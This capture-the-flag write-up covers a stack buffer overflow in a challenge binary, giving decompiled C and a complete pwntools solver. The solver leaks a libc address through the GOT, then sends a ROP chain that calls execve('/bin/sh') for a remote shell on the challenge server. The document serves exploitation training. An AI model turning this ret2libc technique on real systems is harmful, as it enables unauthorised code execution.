

# Dmax


## Source Code
```c
undefined8 main(void)

{
  undefined local_78 [112];
  
  setup();
  write(0,"Welcome To CyberCup Week 2\n",0x1c);
  read(0,local_78,0x200);
  return 0;
}
```

## Solver 
```py
#!/usr/bin/python3
from pwn import *

#context.log_level = "DEBUG"

libc = ELF('libc6_2.27-3ubuntu1.5_amd64.so')
elf = context.binary = ELF('./main')
p = remote("20.216.40.184", 30123)

r = ROP(elf)
r.write(1,elf.got.write)
r.main()

pay = b'a'*120
pay += r.chain()
p.recvuntil(b'Welcome To CyberCup Week 2\n')
p.sendline(pay)

resp = p.recvline()[1:9]
leak = u64(resp)
libc.address = leak - libc.sym.write

POPRDI = 0x00000000004012bb
POPRAX = libc.address + 0x00000000001cf8a8
POPRSI = libc.address +	0x0000000000023a6a
POPRDX = libc.address +	0x0000000000001b96
SYSCALL = libc.address + 0x0000000000002743 

pay = b'a'*120
pay += p64(POPRAX)
pay += p64(0x3b)
pay += p64(POPRDI)
pay += p64(next(libc.search(b'/bin/sh')))
pay += p64(POPRSI)
pay += p64(0)
pay += p64(POPRDX)
pay += p64(0)
pay += p64(SYSCALL)

p.sendline(pay)
p.interactive()
p.close()
```
